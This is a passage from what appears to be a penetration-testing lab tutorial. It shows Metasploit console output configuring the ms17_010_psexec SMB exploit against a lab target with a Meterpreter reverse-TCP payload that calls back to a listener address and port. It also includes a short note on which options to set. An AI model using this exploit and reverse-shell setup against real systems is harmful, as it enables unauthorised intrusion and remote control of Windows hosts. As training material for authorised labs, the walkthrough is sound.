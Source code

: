 ```shell-session
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.86.48    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

Be sure to set your payload options correctly before running the exploit. Any options that have `Required` set to yes will be a necessary space to fill. In this instance, we need to ensure that our `RHOSTS, LHOST, and LPORT` fields are correctly set. For this attempt, accepting the defaults for the rest is OK.

### **Validate Our Options**

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                10.129.201.97                yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
                                                                (ADMIN$,C$,...) or a normal read/write folder s
                                                                hare
   SMBDomain             .                            no        The Windows domain to use for authentication
   SMBPass                                            no        The password for the specified username
   SMBUser                                            no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):
```